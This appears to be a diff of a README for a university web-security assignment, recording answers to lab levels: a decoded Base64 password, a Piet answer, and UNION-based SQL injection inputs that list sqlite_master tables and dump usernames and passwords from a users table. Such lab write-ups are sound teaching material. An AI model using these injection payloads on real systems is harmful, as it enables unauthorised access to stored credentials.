

Before and after one commit to ChristophSchmidl/web-security, a Markdown page: assignment-3/README.md, 3 parts joined by grey strips. Shown: that part at 92% size. GitHub-like rendering; pictures changed too: assignment-3/img/level_2_piet.PNG (added); blank space fills up the shorter version.

Commit message:
Finished assignment 2

```diff
--- a/assignment-3/README.md
+++ b/assignment-3/README.md
@@ -31,14 +31,19 @@
 
 	* Level 0
 		* Base64Password: TkdGbFpqRmxNbUV6
+		* Decrypted password and solution is therefore: NGFlZjFlMmEz
 		* ![Level0](img/level_0.PNG)
 
 	* Level 1
 		* Piet:NTY5M2IyYTc2
+		* Solution is therefore: NTY5M2IyYTc2
 		* ![Level1](img/level_1.PNG)
 
 	* Level 2
 		* input=1+Union+ALL+SELECT+1,2,3,name+from+sqlite_master
+		* ![Level2](img/level_2.PNG)
 		* the users table became OTg5ZmMyZWM1 table
 		* input=1+Union+ALL+SELECT+1,id,name,password+from+OTg5ZmMyZWM1
-		* ![Level2](img/level_2.PNG)
+		* ![Level2](img/level_2_piet.PNG)
+		* Trying to come up with a similar solution for level 1 which was the password for user "Piet", we can try to do the same here and use his password.
+		* Solution is therefore: NTJjOGRiYmUx
```
